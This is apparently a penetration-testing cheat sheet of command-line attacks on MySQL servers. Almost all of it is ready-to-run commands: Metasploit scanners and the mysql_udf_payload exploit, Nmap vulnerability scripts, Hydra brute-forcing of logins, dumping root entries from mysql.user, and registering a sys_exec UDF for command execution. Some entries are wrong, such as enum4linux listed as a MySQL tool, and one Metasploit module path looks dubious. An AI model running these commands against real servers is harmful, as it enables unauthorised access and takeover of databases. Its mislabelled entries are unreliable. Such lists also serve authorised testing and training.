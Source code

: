 # MySQL

## Enumeration

### Metasploit

##### mysql_version
```bash
use auxiliary/scanner/mysql/mysql_version
set RHOSTS [IP]
set RPORT 3306
run
```

##### mysql_enum
```bash
use auxiliary/scanner/mysql/mysql_enum
set RHOSTS [IP]
set RPORT 3306
run
```

### Nmap

##### nmap (Service Version Detection)
```bash
nmap -A -n -p 3306 [IP]
```

##### nmap (Aggressive Scan with All Scripts)
```bash
nmap -A -n -PN --script=ALL -p 3306 [IP]
```

##### nmap (MySQL Specific NSE Scripts)
```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse [IP] -p 3306
```

### MySQL Client

##### mysql (Login to MySQL)
```bash
mysql -u [username] -p -h [IP] -P 3306
```

### Hydra

##### hydra (Brute Force MySQL Login)
```bash
hydra -l [username] -P [wordlist] mysql://[IP]:3306
```

### Enum4linux

##### enum4linux (MySQL Enumeration)
```bash
enum4linux -M -t [IP]
```


---
---


## Exploitation

### Metasploit

##### mysql_udf_payload
```bash
use exploit/linux/mysql/mysql_udf_payload
set RHOSTS [IP]
set RPORT 3306
run
```

##### mysql_sqli
```bash
use exploit/multi/http/mysql_sqli
set RHOSTS [IP]
set RPORT 3306
set TARGETURI /[path]
run
```

### Nmap

##### nmap (MySQL Vulnerability Scan)
```bash
nmap --script=mysql-vuln-cve2012-2122.nse [IP] -p 3306
```

### MySQL Client

##### mysql (Inject Malicious Query)
```bash
mysql -u [username] -p -h [IP] -P 3306 -e "SELECT * FROM mysql.user WHERE User='root';"
```

##### mysql (Exploit MySQL UDF)
```bash
mysql -u root -p -h [IP] -P 3306 -e "CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'libmysqludf_sys.so';"
```